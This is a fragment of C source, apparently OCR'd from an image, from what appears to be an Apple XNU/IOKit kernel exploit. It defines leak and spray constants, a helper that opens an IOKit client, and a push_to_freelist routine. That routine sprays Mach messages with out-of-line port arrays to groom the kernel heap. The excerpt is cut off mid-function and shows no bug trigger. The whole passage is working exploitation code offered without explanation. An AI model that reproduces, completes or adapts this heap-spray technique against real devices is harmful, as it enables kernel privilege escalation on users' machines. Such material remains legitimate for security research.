 ```
} while(0)

#define LEAK_SIZE 0x300
#define SPRAY_COUNT 0x80

mach_port_t create_port(void)
{
  mach_port_t p = MACH_PORT_NULL;
  mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &p);
  mach_port_insert_right(mach_task_self(), p, p, MACH_MSG_TYPE_MAKE_SEND);
  return p;
}

io_connect_t open_client(const char* serviceName, uint32_t type)
{
  io_connect_t client = MACH_PORT_NULL;
  io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching(serviceName));
  assert(service != MACH_PORT_NULL);
  IOServiceOpen(service, mach_task_self(), type, &client);
  assert(client != MACH_PORT_NULL);
  IOObjectRelease(service);
  return client;
}

void push_to_freelist(mach_port_t port)
{  
  uint32_t portCount = LEAK_SIZE / sizeof(void*);

  struct {
    mach_msg_header_t header;
    mach_msg_body_t body;
    mach_msg_ool_ports_descriptor_t ool_ports;
  } msg = {{0}};
  mach_port_t* ports = (mach_port_t*)malloc(portCount * sizeof(mach_port_t));
  for (uint32_t i = 0; i < portCount; i++)
    ports[i] = port;
  
  size_t msgSize = sizeof(msg);
  msg.header.msgh_bits = MACH_MSGH_BITS_SET(MACH_MSG_TYPE_MAKE_SEND, 0, 0, MACH_MSGH_BITS_COMPLEX);
  msg.header.msgh_size = msgSize;
  msg.header.msgh_id = 'OOLP';
  msg.body.msgh_descriptor_count = 1;

  msg.ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
  msg.ool_ports.address = (void*)ports;
  msg.ool_ports.count = portCount;
  msg.ool_ports.deallocate = false;
  msg.ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
  msg.ool_ports.disposition = MACH_MSG_TYPE_MAKE_SEND;

  mach_port_t rcvPorts[SPRAY_COUNT];

  for (uint32_t i = 0; i < SPRAY_COUNT; i++)
  {
    mach_port_t rcvPort = create_port();
    rcvPorts[i] = rcvPort;
    msg.header.msgh_remote_port = rcvPort;
    //trigger kernel allocation of port array:
    kern_return_t kr = mach_msg(&msg.header, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, (mach_msg_size_t)msgSize, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    ASSERT_KR(kr);
  }
```